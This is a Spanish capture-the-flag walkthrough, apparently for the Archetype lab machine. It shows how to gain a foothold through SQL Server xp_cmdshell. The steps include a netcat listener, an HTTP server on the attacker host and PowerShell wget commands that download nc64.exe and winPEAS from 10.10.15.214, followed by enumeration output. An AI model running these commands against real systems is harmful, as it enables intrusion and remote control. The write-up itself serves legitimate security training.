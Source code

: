 🗹 Descargar netcat en la máquina atacante:

[https://github.com/int0x33/nc.exe/blob/master/nc64.exe](https://github.com/int0x33/nc.exe/blob/master/nc64.exe)

🗹 Correr un servidor en el directorio donde se encuentra `nc`:

```shell
python3 -m http.server 8080
```

🗹 Ponerse en escucha con `nc` en la máquina atacante para recibir la reverse shell:

```shell
nc -lnvp 1234
```

🗹 Desde el servidor descargar `netcat` a un directorio en el que el usuario `sql_svc` tenga permisos de escritura usando `powershell`:

```shell
SQL (ARCHETYPE\sql_svc  dbo@master)> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.10.15.214/nc64.exe -outfile nc64.exe"
```

🗹 Desde el servidor enviamos una shell a la máquina atacante que está en escucha con `netcat`:

```shell
SQL (ARCHETYPE\sql_svc  dbo@master)> xp_cmdshell "powershell -c "
```
## User flag

La user flag se encuentra en el directorio `C:\Users\sql_svc\Desktop\user.txt`.

🗹 Descargar `winPEASx64` en la máquina atacante:

[winPEASx64.exe](https://github.com/carlospolop/PEASS-ng/releases/tag/20240310-532aceca)

🗹 Desde el servidor, con `powershell` descargar `winPEASx64` mediante el servidor que está corriendo en la máquina atacante:

```shell
C:\Users\sql_svc\Downloads>powershell
powershell
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\sql_svc\Downloads> wget http://10.10.15.214/winPEASx64.exe -outfile winPEASx64.exe
wget http://10.10.15.214/winPEASx64.exe -outfile winPEASx64.exe
```

🗹 Ejecutar `winPEASx64.exe`:

```shell
<SNIP>
͹ PowerShell Settings
    PowerShell v2 Version: 2.0
    PowerShell v5 Version: 5.1.17763.1
    PowerShell Core Version: 
    Transcription Settings: 
    Module Logging Settings: 
    Scriptblock Logging Settings: 
    PS history file: C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
    PS history size: 79B
```
